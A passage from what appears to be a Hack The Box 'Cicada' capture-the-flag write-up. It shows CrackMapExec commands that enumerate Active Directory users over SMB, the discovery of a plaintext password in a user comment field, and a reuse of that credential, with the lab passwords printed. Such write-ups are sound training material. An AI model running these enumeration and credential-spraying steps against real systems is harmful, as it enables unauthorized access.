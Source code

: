 <br />

Another useful CrackMapExec flag is `--users`, which is similar to `--rid-brute` but requires valid `SMB` credentials.

<br />

```bash
❯ cme smb cicada.htb -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
SMB         10.10.11.35     445    CICADA-DC        [*] Windows 10.0 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [*] Trying to dump local users with SAMRPC protocol
SMB         10.10.11.35     445    CICADA-DC        [+] Enumerated domain user(s)
SMB         10.10.11.35     445    CICADA-DC        cicada.htb\Administrator                  Built-in account for administering the computer/domain
SMB         10.10.11.35     445    CICADA-DC        cicada.htb\Guest                          Built-in account for guest access to the computer/domain
SMB         10.10.11.35     445    CICADA-DC        cicada.htb\krbtgt                         Key Distribution Center Service Account
SMB         10.10.11.35     445    CICADA-DC        cicada.htb\john.smoulder                  
SMB         10.10.11.35     445    CICADA-DC        cicada.htb\sarah.dantelia                 
SMB         10.10.11.35     445    CICADA-DC        cicada.htb\michael.wrightson              
SMB         10.10.11.35     445    CICADA-DC        cicada.htb\david.orelious                 Just in case I forget my password is aRt$Lp#7t*VQ!3
SMB         10.10.11.35     445    CICADA-DC        cicada.htb\emily.oscars
```

<br />

Interestingly, we find a plaintext password embedded in the user comment field: `david.orelious:aRt$Lp#7t*VQ!3`. 

This is a common misconfiguration in real-world environments and could lead to direct access.

<br />

### david.orelious:

<br />

Just like `michael.wrightson’s` credentials, these work for SMB:

<br />

```bash
❯ cme smb cicada.htb -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3'
SMB         10.10.11.35     445    CICADA-DC        [*] Windows 10.0 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3
```

<br />

However, don't work for WinRM:
